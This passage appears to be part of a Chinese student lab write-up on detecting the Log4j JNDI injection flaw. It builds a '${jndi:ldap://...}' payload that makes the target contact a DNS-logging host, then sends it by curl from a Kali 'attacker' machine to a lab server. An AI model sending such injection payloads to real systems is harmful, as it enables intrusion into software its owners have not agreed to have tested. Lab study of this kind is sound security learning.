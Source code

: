 1.[DnsLog](http://dnslog.cn/)下获取专属随机子域名：`nxz5uf.dnslog.cn`，我们可以使用其进行构建漏洞检测payload：`payload="${jndi:ldap://nxz5uf.dnslog.cn/exp}"`

<img src="picture/dnslog下获取子域名.png" alt="dnslog下获取子域名" style="zoom:50%;" />

2.使用kali-attacker进行漏洞存在性验证，直接利用课程中给出的示例形式`curl -X POST http://192.168.109.4:23480/hello -d 'payload="${jndi:ldap:nxz5uf.dnslog.cn/exp}"'`，会发现目标网址不支持POST方法的请求：

<img src="picture/课程示例使用出现报错.png" alt="课程示例使用出现报错" style="zoom:50%;" />
